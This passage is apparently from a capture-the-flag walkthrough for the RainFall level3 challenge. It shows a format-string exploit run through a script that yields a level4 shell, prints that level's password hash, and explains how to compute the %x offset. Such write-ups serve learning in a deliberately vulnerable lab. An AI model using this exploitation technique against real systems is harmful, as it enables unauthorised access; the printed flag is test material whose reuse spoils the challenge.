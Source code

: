 Execute the payload.sh file to enter the shell of level4 user:

```sh
level3@RainFall:~$ /tmp/offset.sh
�200 b7fd1ac0 b7ff37d0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass            
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

If it doesn't work and just print the first line without the "Wait What ?!" message, then it means that the buffer size probably changed (it can happen the stacks changes a lot even if it is not supposed to on RainFall), in this case you can launch level3 and print a bunch of "%x" to know the offset necessary to access the buffer memory space, then execute payload.sh with a custom offset value as such:

```sh
level3@RainFall:~$ ./level3 
AAAA %x %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
level3@RainFall:~$ /tmp/
level3@RainFall:~$ /tmp/offset.sh 38
�200 b7fd1ac0 b7ff37d0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
[...]
```

Here we count everything after the AAAA and stop before the 41414141 so 22 chars, with the address of m 26, so 64 - 26 = 38.